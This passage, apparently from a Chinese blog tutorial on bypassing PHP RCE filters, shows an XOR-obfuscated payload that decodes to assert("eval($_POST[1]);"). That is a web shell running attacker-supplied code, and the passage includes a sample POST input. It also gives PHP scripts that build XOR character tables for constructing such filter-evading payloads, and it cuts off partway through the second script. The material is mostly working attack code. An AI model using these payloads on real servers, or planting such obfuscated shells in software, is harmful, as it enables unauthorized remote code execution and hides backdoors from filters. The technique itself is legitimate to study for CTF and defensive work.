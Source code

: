 生成payload

![2](https://the0n3.top/medias/phprce/2.png)

## 异或

示例payload

```php
assert("eval($_POST[1]);");
# payload
(('%bf'^'%de').('%bf'^'%cc').('%bf'^'%cc').('%bf'^'%da').('%bf'^'%cd').('%bf'^'%cb'))(('%bf'^'%da').('%bf'^'%c9').('%bf'^'%de').('%bf'^'%d3').('%df'^'%f7').('%df'^'%fb').('%bf'^'%e0').('%bf'^'%ef').('%bf'^'%f0').('%bf'^'%ec').('%bf'^'%eb').('%bf'^'%e4').('%df'^'%ee').('%bf'^'%e2').('%df'^'%f6').('%df'^'%e4'));
# POST
1=phpinfo();
```

![3](https://the0n3.top/medias/phprce/3.png)

写一个脚本，通过不可见字符，异或运算，先构造出可见字符a-z0-9以及其他可见字符

```php
<?php
/*
 * Author: the0n3
 * Date: 2025-01-21
 */
function x0r() {
    // 遍历不可见字符 (ASCII 128 到 255)
    for ($x = 128; $x <= 255; $x++) {
        for ($y = 128; $y <= 255; $y++) {
            $result = $x ^ $y;
            if ($result >= 32 && $result <= 126) {  // 如果结果是可见字符
                echo chr($result) . " : '%" . dechex($x) . "'^'%" . dechex($y) . "'\n";
            }
        }
    }
}
x0r();
?>
```

把可见字符存储在数组里，方便后续调用

```php
<?php
/*
 * Author: the0n3
 * Date: 2025-01-21
 */
function x0r() {
    $results = [];

    // 遍历不可见字符 (ASCII 128 到 255)
    for ($x = 128; $x <= 255; $x++) {
        for ($y = 128; $y <= 255; $y++) {
            $result = $x ^ $y;  // 计算按位异或

            if ($result >= 32 && $result <= 126) {
                $results[] = [
                    'char' => chr($result), 
                    'expr' => "'%" . dechex($x) . "'^'%" . dechex($y) . "'"
                ];
            }
```